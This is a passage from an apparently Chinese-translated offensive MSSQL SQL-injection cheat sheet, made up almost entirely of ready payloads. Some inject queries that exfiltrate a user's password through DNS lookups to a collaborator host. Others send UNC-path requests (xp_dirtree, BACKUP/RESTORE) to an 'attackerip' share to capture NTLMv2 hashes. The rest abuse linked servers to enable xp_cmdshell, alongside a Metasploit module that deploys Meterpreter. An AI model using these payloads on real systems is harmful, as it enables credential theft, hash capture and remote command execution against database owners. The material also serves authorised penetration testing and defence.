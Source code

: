 ### MSSQL DNS 数据外泄

技术来源：[@ptswarm](https://twitter.com/ptswarm/status/1313476695295512578/photo/1)

* **权限要求**：需要服务器上的 `VIEW SERVER STATE` 权限。

    ```powershell
    1 and exists(select * from fn_xe_file_target_read_file('C:\*.xel','\\'%2b(select pass from users where id=1)%2b'.xxxx.burpcollaborator.net\1.xem',null,null))
    ```

* **权限要求**：需要 `CONTROL SERVER` 权限。

    ```powershell
    1 (select 1 where exists(select * from fn_get_audit_file('\\'%2b(select pass from users where id=1)%2b'.xxxx.burpcollaborator.net\',default,default)))
    1 and exists(select * from fn_trace_gettable('\\'%2b(select pass from users where id=1)%2b'.xxxx.burpcollaborator.net\1.trc',default))
    ```

### MSSQL UNC 路径

MSSQL 支持堆叠查询，因此我们可以创建一个指向我们 IP 地址的变量，然后使用 `xp_dirtree` 函数列出我们的 SMB 共享中的文件并抓取 NTLMv2 哈希。

```sql
1'; use master; exec xp_dirtree '\\10.10.15.XX\SHARE';-- 
```

```sql
xp_dirtree '\\attackerip\file'
xp_fileexist '\\attackerip\file'
BACKUP LOG [TESTING] TO DISK = '\\attackerip\file'
BACKUP DATABASE [TESTING] TO DISK = '\\attackeri\file'
RESTORE LOG [TESTING] FROM DISK = '\\attackerip\file'
RESTORE DATABASE [TESTING] FROM DISK = '\\attackerip\file'
RESTORE HEADERONLY FROM DISK = '\\attackerip\file'
RESTORE FILELISTONLY FROM DISK = '\\attackerip\file'
RESTORE LABELONLY FROM DISK = '\\attackerip\file'
RESTORE REWINDONLY FROM DISK = '\\attackerip\file'
RESTORE VERIFYONLY FROM DISK = '\\attackerip\file'
```

## MSSQL 可信链接

> 数据库之间的链接即使跨森林信任也仍然有效。

```powershell
msf> use exploit/windows/mssql/mssql_linkcrawler
[msf> set DEPLOY true] # 如果你想滥用特权以获得 Meterpreter 会话，请将 DEPLOY 设置为 true
```

手动利用

```sql
-- 查找链接
select * from master..sysservers

-- 通过链接执行查询
select * from openquery("dcorp-sql1", 'select * from master..sysservers')
select version from openquery("linkedserver", 'select @@version as version');

-- 链接多个 openquery
select version from openquery("link1",'select version from openquery("link2","select @@version as version")')

-- 执行 shell 命令
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT LinkedServer
select 1 from openquery("linkedserver",'select 1;exec master..xp_cmdshell "dir c:"')

```